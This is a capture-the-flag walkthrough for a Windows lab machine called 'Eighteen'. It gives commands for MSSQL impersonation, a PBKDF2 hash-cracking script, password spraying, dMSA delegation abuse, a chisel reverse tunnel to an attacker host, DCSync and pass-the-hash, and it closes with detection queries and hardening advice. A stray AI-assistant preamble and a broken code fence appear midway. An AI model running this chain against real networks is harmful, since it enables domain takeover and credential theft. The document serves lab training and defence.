# Eighteen

```
Difficulty: Easy
Operating System: Windows
Hints: True
```

### Summary of Attack Chain

| Step | User / Access                        | Technique Used                                     | Result                                                          |
| :--: | :----------------------------------- | :------------------------------------------------- | :-------------------------------------------------------------- |
|   1  | (Local / Recon)                      | **nmap -A -Pn -sC 10.129.20.5**                    | Identified MSSQL service and Active Directory–related ports.    |
|   2  | kevin (MSSQL login)                  | **impacket-mssqlclient**                           | Successfully authenticated to MSSQL as `kevin`.                 |
|   3  | kevin → appdev (MSSQL impersonation) | **enum_impersonate + EXECUTE AS LOGIN = 'appdev'** | Gained impersonation rights as `appdev`.                        |
|   4  | appdev (DB access)                   | **Database enumeration (tables, columns, users)**  | Extracted PBKDF2-SHA256 password hash from `financial_planner`. |
|   5  | (attacker)                           | **PBKDF2-SHA256 hash cracking**                    | Recovered valid plaintext credentials.                          |
|   6  | (attacker)                           | **crackmapexec RID brute-force**                   | Enumerated valid domain usernames.                              |
|   7  | (attacker)                           | **WinRM password spraying**                        | Identified valid credentials for `adam.scott`.                  |
|   8  | adam.scott (WinRM access)            | **evil-winrm**                                     | Logged in and retrieved **user.txt**.                           |
|   9  | adam.scott (privilege escalation)    | **BadSuccessor.ps1 (delegation abuse)**            | Configured malicious delegation to impersonate Administrator.   |
|  10  | (attacker)                           | **Chisel + Proxychains (SOCKS tunneling)**         | Established pivot access to Domain Controller services.         |
|  11  | (attacker)                           | **Kerberos time synchronization**                  | Synced local time with the DC to satisfy Kerberos requirements. |
|  12  | adam.scott (delegation abuse)        | **getST.py -impersonate 'zon_dmsa$'**              | Obtained Kerberos service ticket impersonating Administrator.   |
|  13  | (attacker → Domain Controller)       | **secretsdump.py (DCSync)**                        | Dumped the Administrator NTLM hash from Active Directory.       |
|  14  | Administrator (WinRM access)         | **evil-winrm -H <NTLM_HASH>**                      | Logged in as Administrator and retrieved **root.txt**.          |





## Enumeration

### Port Scan

```
nmap -A -Pn -sC 10.10.xxx.xx
# Nmap 7.95 scan initiated Sat Nov 22 22:47:39 2025 as: /usr/lib/nmap/nmap --privileged -A -Pn -sC -o eighteenscan 10.XXX.XX.X
Nmap scan report for 10.XXX.XX.X
Host is up (0.88s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE  VERSION
80/tcp   open  http     Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Did not follow redirect to http://eighteen.htb/
1433/tcp open  ms-sql-s Microsoft SQL Server 2022 16.00.1000.00; RTM
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2025-11-23T00:10:42
|_Not valid after:  2055-11-23T00:10:42
|_ssl-date: 2025-11-23T00:22:04+00:00; +1h29m52s from scanner time.
| ms-sql-ntlm-info: 
|   10.XXX.XX.X:1433: 
|     Target_Name: EIGHTEEN
|     NetBIOS_Domain_Name: EIGHTEEN
|     NetBIOS_Computer_Name: DC01
|     DNS_Domain_Name: eighteen.htb
|     DNS_Computer_Name: DC01.eighteen.htb
|     DNS_Tree_Name: eighteen.htb
|_    Product_Version: 10.0.26100
| ms-sql-info: 
|   10.XXX.XX.X:1433: 
|     Version: 
|       name: Microsoft SQL Server 2022 RTM
|       number: 16.00.1000.00
|       Product: Microsoft SQL Server 2022
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
5985/tcp open  http     Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2022 (88%)
OS CPE: cpe:/o:microsoft:windows_server_2022
Aggressive OS guesses: Microsoft Windows Server 2022 (88%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1h29m51s, deviation: 0s, median: 1h29m51s

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   459.68 ms 10.XXX.XX.X
2   512.88 ms 10.XXX.XX.X

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Nov 22 22:52:13 2025 -- 1 IP address (1 host up) scanned in 273.48 seconds

```

The scan showed an exposed MSSQL service along with typical AD ports.

## MSSQL Access

### Connect to MSSQL

```
impacket-mssqlclient kevin:'iNa2we6haRj2gaw!'@10.XXX.XX.X
```

Inside the SQL shell:

```
enum_impersonate
```


```
EXECUTE AS LOGIN = 'appdev';
SELECT IS_SRVROLEMEMBER('sysadmin');
```



```
USE financial_planner;
```



### Enumerate Database

```
SELECT name FROM financial_planner.sys.tables;
```



```
SELECT COLUMN_NAME, DATA_TYPE 
FROM financial_planner.INFORMATION_SCHEMA.COLUMNS
WHERE TABLE_NAME = 'users';
```



Extract stored credentials:

```
SELECT username, email, password_hash FROM financial_planner.dbo.users;
```



## Password Cracking (PBKDF2-SHA256)

Save the hash:

```
nano hash.txt
sha256:600000:AMtXXXXXXXXXXXX:0673ad90aXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
```

Create the cracking script:

```
cat << 'EOF' > pass.py
#!/usr/bin/env python3
import hashlib
from multiprocessing import Pool, cpu_count

SALT = "AMtzxXXXXXXXXXXXXXX"
ITERATIONS = 600000
TARGET_HASH = "0673ad90a0b4afXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX"
WORDLIST = "/usr/share/wordlists/rockyou.txt"

def check_password(password: bytes):
    try:
        computed = hashlib.pbkdf2_hmac(
            'sha256',
            password,
            SALT.encode(),
            ITERATIONS
        )
        if computed.hex() == TARGET_HASH:
            return password.decode(errors="ignore")
    except Exception:
        pass
    return None

def main():
    print(f"[+] Using wordlist: {WORDLIST}")
    print("[+] Starting PBKDF2-SHA256 cracking...")

    with open(WORDLIST, "rb") as f:
        passwords = (line.strip() for line in f)

        with Pool(cpu_count()) as pool:
            for result in pool.imap_unordered(
                check_password, passwords, chunksize=500
            ):
                if result:
                    print(f"[+] PASSWORD FOUND: {result}")
                    pool.terminate()
                    return

    print("[-] No match found.")

if __name__ == "__main__":
    main()
EOF

```


Run the script:

```
python3 pass.py
```

Once the password is recovered, continue with AD enumeration.



## User Enumeration and WinRM Access

### RID Brute Force

```
nxc mssql 10.XXX.XX.X -u kevin -p 'iNa2we6haRj2gaw!' --rid-brute --local-auth
```



Create user list:

```
cat << 'EOF' > user.txt
kevin
mssqlsvc
HR
IT
Finance
jamie.dunn
jane.smith
alice.jones
adam.scott
bob.brown
carol.white
dave.green
EOF
```

Password spraying:

```
crackmapexec winrm 10.XXX.XX.X -u user.txt -p 'ilXXXXXxX'
```


A valid login for `adam.scott` is identified.

### WinRM Session

```
evil-winrm -u adam.scott -p 'ilXXXXXxX' -i 10.XXX.XX.X
```

Retrieve user flag:

```
cd ..\Desktop
type user.txt
```




# Privilege Escalation to Administrator

## BadSuccessor Delegation Exploit

Upload the BadSuccessor script and run:


Here is the organized and translated CTF write-up in Markdown format. I have updated the IP address to **10.XXX.XX.X** as requested.

```markdown
# Exploitation Path: AD Delegation & DMSA Abuse

## 1. Configure Delegation on Victim Host
First, upload and import the module. We will abuse the delegation settings using `BadSuccessor` (or a similar script).

```powershell
BadSuccessor -mode exploit -Path "OU=Staff,DC=eighteen,DC=htb" -Name "zon_dmsa" -DelegatedAdmin "adam.scott" -DelegateTarget "Administrator" -domain "eighteen.htb"

```



## Establish Tunneling (Chisel)

Since we need to interact with the Domain Controller through the compromised host, we set up a SOCKS tunnel using Chisel.

**On our attacking machine (Server):**

```bash
chisel server -p 8080 --reverse

```

**On the victim machine (Client):**

```powershell
chisel client <YOUR_ATTACKER_IP>:8080 R:1080:socks
```

## Configure Proxychains

Update your `/etc/proxychains.conf` file to point to the Chisel SOCKS tunnel.

```ini
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks5 127.0.0.1 1080

```

## Prepare Impacket

Ensure you have a recent version of Impacket installed to support the specific Kerberos operations (DMSA).

```bash
pip3 install impacket --upgrade

```

## Time Synchronization & Ticket Acquisition

Kerberos is time-sensitive. Sync your local time with the target DC, then request the Service Ticket (ST) using `getST.py` via proxychains.

**Option 1: Sync and Execute (One-liner)**
This is recommended to minimize time drift between the sync and the request.

```bash
sudo timedatectl set-time "$(date -d "$(curl -s -I [http://10.XXX.XX.X](http://10.XXX.XX.X) | grep -i '^Date:' | cut -d' ' -f2-)" '+%Y-%m-%d %H:%M:%S')"; proxychains ~/.local/bin/getST.py eighteen.htb/adam.scott:iloXXXXXX -impersonate "zon_dmsa$" -dc-ip 10.XXX.XX.X -self -dmsa

```

**Option 2: Step-by-Step**

Sync time:

```bash
sudo timedatectl set-time "$(date -d "$(curl -s -I [http://10.XXX.XX.X](http://10.XXX.XX.X) | grep -i '^Date:' | cut -d' ' -f2-)" '+%Y-%m-%d %H:%M:%S')"

```

Request Ticket:

```bash
proxychains ~/.local/bin/getST.py eighteen.htb/adam.scott:iloXXXXXX -impersonate "zon_dmsa$" -dc-ip 10.XXX.XX.X -self -dmsa

```

## Export Ticket

Export the acquired ticket to your environment variable so other tools can use it.

```bash
export KRB5CCNAME='zon_dmsa$@krbtgt_EIGHTEEN.HTB@EIGHTEEN.HTB.ccache'

```

## Dump Secrets (DCSync)

With the ticket in place, use `secretsdump` to retrieve the Administrator's hash.

```bash
proxychains -q impacket-secretsdump -k -no-pass dc01.eighteen.htb -just-dc-user Administrator -dc-ip 10.XXX.XX.X

```



**Alternative One-liner (Sync + Dump):**

```bash
sudo timedatectl set-time "$(date -d "$(curl -s -I [http://10.XXX.XX.X](http://10.XXX.XX.X) | grep -i '^Date:' | cut -d' ' -f2-)" '+%Y-%m-%d %H:%M:%S')"; proxychains impacket-secretsdump -k -no-pass dc01.eighteen.htb -just-dc-user Administrator -dc-ip 10.XXX.XX.X

```

## Administrator Access

Finally, use the retrieved NTLM hash to gain a shell via Evil-WinRM.

```bash
evil-winrm -u administrator -H <NTLM_HASH> -i 10.XXX.XX.X

```

# Root Flag

```
type C:\Users\Administrator\Desktop\root.txt
```




# Defensive Operations

## Strategic Overview

* **1.1 Definition:** Integrated Active Directory compromise leveraging MSSQL Context Impersonation (`EXECUTE AS`) coupled with Delegated Managed Service Account (dMSA) abuse for domain escalation.
* **1.2 Impact:** **Total Domain Compromise**. The adversary transitions from a localized database application service account to Domain Admin privileges, enabling full credential recovery (DCSync) and persistence.
* **1.3 The Scenario:** An adversary breaches the perimeter via an exposed MSSQL instance. They pivot through database internal impersonation to harvest credentials, move laterally to a domain user (`adam.scott`), and exploit a misconfigured dMSA (`zon_dmsa$`) to forge Kerberos Service Tickets, ultimately executing a DCSync attack against the Domain Controller.


## System Architecture & Theory

* **2.1 Protocol Environment:**
* **Application Layer:** Microsoft SQL Server 2022 (TDS Protocol).
* **Identity Layer:** Active Directory (Kerberos v5, NTLMv2).
* **Network Layer:** WinRM (HTTP/5985), SOCKS5 Tunneling.


* **2.2 Attack Logic Flow:**
> [Public MSSQL Port 1433] -> [MSSQL `EXECUTE AS` Privilege Escalation] -> [Credential Harvesting (PBKDF2)] -> [Lateral Movement (WinRM)] -> [dMSA Object Manipulation] -> [Kerberos Ticket Forgery] -> [Domain Controller Sync]


* **2.3 Theoretical Analogy:** The attacker utilizes the database as a "trojan horse," entering through a low-level service door (MSSQL User), unlocking the internal maintenance hatch (Impersonation), and then rewriting the building's security badges (dMSA Kerberos Tickets) to access the master control room (DC).


## Attack Vector (Mechanics)

### Core Mechanism

| Attribute               | Technical Details                                                                                                                                                    |
| :---------------------- | :------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **Primary Identifiers** | `sys.server_principals` (MSSQL), `msDS-AllowedToActOnBehalfOfOtherIdentity`, **dMSA class objects**.                                                                 |
| **Critical Weakness**   | **Excessive MSSQL permissions** (`IMPERSONATE`) combined with **insecure AD delegation** on dMSA objects.                                                            |
| **Offensive Technique** | Context switching via **EXECUTE AS LOGIN**, followed by **Kerberos service ticket requests** abusing dMSA trust—no password required (delegation / key trust abuse). |


### Prerequisites

* **Access Level:** Valid credentials for an MSSQL user with `IMPERSONATE` permission on a high-privilege login (`appdev`/`sysadmin`).
* **Connectivity:** TCP 1433 (MSSQL) and TCP 5985 (WinRM) accessible; SOCKS proxy required for DC interaction.
* **Target State:** A domain user (`adam.scott`) with permissions to modify or interact with a dMSA object (`zon_dmsa$`).


## Threat Hunting & Anomaly Analysis

* **Hunt Hypothesis:** Adversaries leveraging dMSA abuse will generate anomalous Kerberos Service Ticket requests (TGS-REQ) originating from non-computer accounts or unexpected hosts, often followed immediately by Directory Replication traffic (DRSUAPI).
* **Behavioral Outliers:**
* **MSSQL Process Ancestry:** `sqlservr.exe` spawning `cmd.exe` or `powershell.exe` is a high-fidelity indicator of `xp_cmdshell` or CLR abuse.
* **Time Synchronization:** Manual execution of `timedatectl` or `net time` to align with the DC is a prerequisite for Kerberos attacks and creates a distinct host-based artifact.


* **Toxic Combinations:** The identity `adam.scott` possesses `GenericWrite` or `AllowedToAct` permissions over `zon_dmsa$`. This relationship creates a direct path to Domain Admin if the dMSA has high privileges.


## Detection Engineering

* **Telemetry Gap Analysis:**
* **Event ID 4624:** Successful Logon (Type 3 for WinRM, Type 10 for RDP).
* **Event ID 4768/4769:** Kerberos TGT/TGS Requests (Focus on `Transited Services` field).
* **Event ID 4662:** Operation was performed on an object (Vital for detecting DCSync).


* **Detection-as-Code (KQL):**

```kql
// Detect Potential DCSync (Directory Replication) via DRSUAPI
// Trigger: High Severity
SecurityEvent
| where EventID == 4662
| where ObjectServer == "DS"
| where OperationType == "Object Access"
// AccessMask 0x100 indicates Control Access (Extended Right)
| where AccessMask contains "0x100"
| extend Properties = extract_all(@"{([a-fA-F0-9-]{36})}", Properties)
| mv-expand Properties
// GUID for 'DS-Replication-Get-Changes-All'
| where Properties == "1131f6aa-9c07-11d1-f79f-00c04fc2dcd2" 
   or Properties == "1131f6ad-9c07-11d1-f79f-00c04fc2dcd2"
| project TimeGenerated, AccountName, Computer, Properties, AccessMask

```

* **Resilience Test:**
* **Bypass:** Adversary may use "DCShadow" to push changes instead of pulling them, or throttle the replication requests to stay below threshold alerts.
* **Sub-Rule Countermeasure:** Correlate Event 4662 with Network Connection events (Sysmon Event ID 3) showing connections to the DC on port 135/RPC from non-DC IP addresses.


## Toolkit & Implementation

* **Automation:**
* `Impacket` (`mssqlclient.py`, `getST.py`, `secretsdump.py`): The backbone of the protocol abuse.
* `Evil-WinRM`: PowerShell Remoting shell management.
* `Chisel` + `Proxychains`: Network tunneling to bypass segmentation.


* **OPSEC Analysis:** The attack is **Noisy**. `nmap` aggressive scans and `crackmapexec` spraying generate massive log volumes. However, the dMSA abuse (Service Ticket generation) is subtle and may bypass standard behavioral heuristics that only look for "Golden Ticket" attacks.
* **Post-Exploitation:** Following DCSync, the attacker possesses the `Administrator` NTLM hash. They can now create Golden Tickets (Persistence) or access any resource in the forest.


## Defensive Mitigation

* **Technical Hardening:**
* **MSSQL:** Audit `EXECUTE AS` permissions. Revoke `IMPERSONATE` from all non-administrative SQL logins.
* **Active Directory:** Implement **Tiered Administration**. Ensure dMSA accounts do not have Tier 0 (Domain Admin) privileges or replication rights.
* **Network:** Enforce rigid ACLs. Client segments should not communicate directly with the DC on RPC ports (135, 49152-65535) except for specific management hosts.


* **Personnel Focus:**
* Stop storing credentials in database tables (`financial_planner.dbo.users`). Use Key Vaults or Managed Identity.
* Review `BadSuccessor` exposure and audit Delegation rights on all Service Accounts.


## Quick-Action Playbook

| Step | Objective       | Technique / Command                                                        |
| :--: | :-------------- | :------------------------------------------------------------------------- |
|   1  | **Isolate**     | **Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled True**    |
|      |                 | Block inbound connections to prevent lateral movement.                     |
|   2  | **Investigate** | **Get-WinEvent -FilterHashtable @{LogName='Security'; ID=4662}**           |
|      |                 | Detect unauthorized directory replication (DCSync-style) activity.         |
|   3  | **Remediate**   | **Disable-ADAccount -Identity zon_dmsa$**                                  |
|      |                 | Reset **krbtgt** password **twice** to invalidate forged Kerberos tickets. |

**Thanks for a Read!**